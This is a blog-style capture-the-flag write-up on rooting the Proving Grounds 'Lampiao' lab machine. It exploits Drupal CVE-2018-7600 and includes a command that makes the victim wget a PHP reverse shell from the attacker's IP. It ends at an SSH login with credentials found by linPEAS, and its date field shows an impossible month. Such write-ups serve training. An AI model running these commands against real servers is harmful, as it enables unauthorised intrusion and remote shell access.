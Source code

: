 ```yaml
---
layout: single
title: Lampiao - Proving grounds Play
date: 2023-13-06
classes: wide
header:
  teaser: /assets/images/linux.png
categories:
  - provinggrounds
  - infosec
tags:
  - provinggrounds
  - linux
  - drupal
  - dirtycow
  - kernel
---
```


## Linux

![](/assets/images/linux.png)

This blog post is a writeup of the Lampiao machine from Proving grounds play.

### Summary
------------------
- The webserver has a vulnerable Drupal version to RCE.
- We access exploiting this vulnerability.
- We are able to find credentials which allows us to login with a higher privileged user than www-data.
- The Linux kernel version it's vulnerable to dirtycow.
- Exploiting this dirtycow vulnerability allows us to gain access as root user.
### Detailed steps
------------------

### Enumeration

There's a webserver, a SSH service and another interesting open port (1898) running on this box.

![nmap1](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\1.JPG)

Let's take a closer look at these ports with Nmap.
 ```
 nmap -A 192.168.201.48 -p 22,80,1898 -o nmap_lampiao.txt
 ```
![nmap2](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\2.JPG)


As we can see in the last picture, the 1898 port it's running an HTTP service. Nmap HTTP enum returns some interesting files as CHANGELOG.TXT

CHANGELOG.txt it's a common file in Drupal which shows the current version.
In this case the current version it's `7.54`.

![changelog](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\5.JPG)


`Drupal 7.54` it's vulnerable to a remote code execution as we can see in `CVE-2018-7600` --> https://www.drupal.org/sa-core-2018-002
To exploit this vulnerability I used the following python code --> https://github.com/pimps/CVE-2018-7600

The first step was to check the vulnerability. I successfully executed the exploit with `id` command.
 ```
 python3 drupa7-CVE-2018-7600.py http://192.168.201.48:1898 -c id
 ```

![exploit1](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\6.JPG)


Now, in order to gain access to the victim's machine, I uploaded a PHP revershell to the webserver.

Configuring the webshell:
![shell1](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\7.JPG)

After configuring the webshell, I opened an HTTP server on my Kali machine with python in my webshell directory:
 ```
 python3 -m http.server 443
 ```

To upload the webshell I used the python exploit to execute a wget command on the victim's machine:
 ```
 python3 drupa7-CVE-2018-7600.py http://192.168.201.48:1898 -c "wget http://192.168.45.177:443/php-reverse-shell.php"
 ```
![exploit2](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\8.JPG)


At this point, I was able to access to my webshell on victim's machine and capture the shell running a Netcat listener.
![shell2](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\10.JPG)

![shell3](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\9.JPG)


Having access to www-data user I was able to find the first flag:
![userflag](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\userf.jpg)



### Privilege scalation

To elevete my privileges I used Linpeas.sh --> https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Linpeas found the following files with an interesting credentials:
![creds](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\15.JPG)

This credentials allowed me to log in via SSH with "tiago" user
![shell3](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\18.JPG)